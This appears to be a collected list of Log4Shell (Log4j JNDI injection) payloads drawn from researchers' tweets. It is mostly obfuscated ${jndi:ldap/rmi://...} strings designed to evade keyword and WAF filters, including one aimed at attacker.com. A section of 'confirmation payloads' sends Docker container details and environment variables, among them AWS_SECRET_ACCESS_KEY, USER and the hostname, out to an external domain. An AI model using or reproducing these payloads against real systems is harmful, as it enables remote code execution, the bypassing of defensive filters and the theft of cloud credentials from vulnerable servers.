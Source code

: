 ${j${loWer:Nd}i${uPper::}ldap://domain.com/j}
${jndi:ldap://127.0.0.1#domain.com/j}
${jnd${upper:ı}:ldap://domain.com/j}
${jnd${sys:SYS_NAME:-i}:ldap:/domain.com/j}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://domain.com/j}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://domain.com/j}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://domain.com/j}
${\u006a\u006e\u0064\u0069:ldap://domain.com/j}
${jn${lower:d}i:l${lower:d}ap://${lower:x}${lower:f}.domain.com/j}
${j${k8s:k5:-ND}${sd:k5:-${123%25ff:-${123%25ff:-${upper:ı}:}}}ldap://domain.com/j}
%24%7Bjndi:ldap://domain.com/j%7D
%24%7Bjn$%7Benv::-%7Ddi:ldap://domain.com/j%7D
 
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a} (https://twitter.com/BountyOverflow/status/1470001858873802754) 
1. ${jndi:ldap://127.0.0.1:1389/ badClassName}
2. ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
3. ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
4. ${jndi:rmi://adsasd.asdasd.asdasd}  - https://twitter.com/wugeej/status/1469982901412728832
 
jndi:
jn${env::-}di:
jn${date:}di${date:':'}
j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::} https://twitter.com/ymzkei5/status/1469765165348704256
 
If you re filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you: (https://twitter.com/Rezn0k/status/1469523006015750146) 
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
This gets past every filter I've found so far. There's no shortage of these bypasses.
 
# Different Types of Exploit Confirmation Payloads
# Docker Lookup
${jndi:ldap://${docker:containerId}.domain.com/j}
${jndi:ldap://${docker:containerName}.domain.com/j}
${jndi:ldap://${docker:imageId}.domain.com/j}
${jndi:ldap://${docker:imageName}.domain.com/j}
${jndi:ldap://${docker:shortContainerId}.domain.com/j}
${jndi:ldap://${docker:shortImageId}.domain.com/j}
 
# Environment Lookup
${jndi:ldap://${env:USER}.domain.com/j}
${jndi:ldap://${env:user}.domain.com/j}
${jndi:ldap://${env:COMPUTERNAME}.domain.com/j}
${jndi:ldap://${env:USERDOMAIN}.domain.com/j}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.domain.com/j}
${jndi:ldap://${hostName}.domain.com/j}
${jndi:ldap://${env:JAVA_VERSION}.domain.com/j}
 